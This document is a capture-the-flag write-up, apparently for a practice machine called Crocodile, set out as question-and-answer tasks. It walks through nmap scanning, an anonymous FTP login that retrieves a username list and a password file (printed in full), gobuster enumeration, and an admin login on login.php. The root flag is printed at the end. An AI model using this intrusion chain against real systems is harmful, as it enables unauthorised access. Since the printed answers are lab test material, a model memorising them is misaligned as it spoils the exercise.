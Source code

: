 # Crocodile

## Task 1: What nmap scanning switch employs the use of default scripts during a scan?

`-sC`

from manpage:

```text
 -sC: equivalent to --script=default
```

## Task 2: What service version is found to be running on port 21?

vsFTPd 3.0.3

## Task 3: What FTP code is returned to us for the "Anonymous FTP login allowed" message?

230

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ ftp 10.129.71.2
Connected to 10.129.71.2.
220 (vsFTPd 3.0.3)
Name (10.129.71.2:realkali): anonymous
230 Login successful.
```

## Task 4: What command can we use to download the files we find on the FTP server?

get

## Task 5: What is one of the higher-privilege sounding usernames in the list we retrieved?

answer: admin

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49769|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||41717|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |***************************************************************************|    33       13.46 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.10 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||44156|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |***************************************************************************|    62      167.71 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.20 KiB/s)
```

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin

┌──(realkali㉿SeaDragnoL)-[~]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

## Task 6: What version of Apache HTTP Server is running on the target host?

2.4.41

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -p 80 10.129.21.149 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 14:05 EDT
Nmap scan report for 10.129.21.149
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.04 seconds
```

## Task 7: What is the name of a handy web site analysis plug-in we can install in our browser?

Wappalyzer

## Task 8: What switch can we use with gobuster to specify we are looking for specific filetypes?

-x

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir --help
Uses directory/file enumeration mode

Usage:
  gobuster dir [flags]

Flags:
  -x, --extensions string               File extension(s) to search for
```

## Task 9: What file have we found that can provide us a foothold on the target?

login.php

```bash
┌──(kali㉿kali)-[/usr/share/wordlists/dirb]
└─$ gobuster dir -x php -w common.txt -u 10.129.21.149
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.21.149
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/16 15:02:08 Starting gobuster in directory enumeration mode
===============================================================
/.hta.php             (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.21.149/assets/]
/config.php           (Status: 200) [Size: 0]                                     
/css                  (Status: 301) [Size: 312] [--> http://10.129.21.149/css/]   
/dashboard            (Status: 301) [Size: 318] [--> http://10.129.21.149/dashboard/]
/fonts                (Status: 301) [Size: 314] [--> http://10.129.21.149/fonts/]    
/index.html           (Status: 200) [Size: 58565]                                    
/js                   (Status: 301) [Size: 311] [--> http://10.129.21.149/js/]       
/login.php            (Status: 200) [Size: 1577]                                     
/logout.php           (Status: 302) [Size: 0] [--> login.php]                        
/server-status        (Status: 403) [Size: 278]
```

## Task 10: Submit root flag

c7110277ac44d78b6a9fff2232434d16

login with admin credentials obtained via ftp in login.php page.
![alt login](./img/crocodile-login.png)
![alt flag](./img/crocodile-flag.png)
